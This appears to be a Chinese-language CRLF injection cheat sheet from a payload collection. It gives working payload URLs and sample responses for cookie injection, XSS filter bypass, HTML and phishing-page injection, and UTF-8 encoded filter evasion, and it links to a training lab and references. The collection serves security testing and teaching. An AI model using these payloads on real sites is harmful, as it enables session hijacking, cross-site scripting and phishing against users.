 ## CRLF

> CRLF（Carriage Return Line Feed）指的是回车（ASCII 13，\r）换行（ASCII 10，\n）。它们用来表示一行的结束，但在当今流行的操作系统中处理方式不同。例如：在Windows系统中，需要CR和LF来表示一行的结束，而在Linux/UNIX系统中，只需要LF。在HTTP协议中，总是使用CR-LF序列来终止一行。

> 当用户设法在应用程序中提交CRLF时，就会发生CRLF注入攻击。这通常是通过修改HTTP参数或URL来完成的。

## 摘要

- CRLF - 添加cookie
- CRLF - 添加cookie - XSS绕过
- CRLF - 写入HTML
- CRLF - 过滤绕过
- 实验室
- 参考资料

## CRLF - 添加cookie

请求页面

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP响应

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - 添加cookie - XSS绕过

请求页面

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

请求响应

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## CRLF - 写HTML

请求URL

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

请求响应

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

## CRLF - 绕过过滤

使用 UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

转换列表:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)


## 实验室

* [https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)


## 参考链接

* https://www.owasp.org/index.php/CRLF_Injection
* https://vulners.com/hackerone/H1:192749
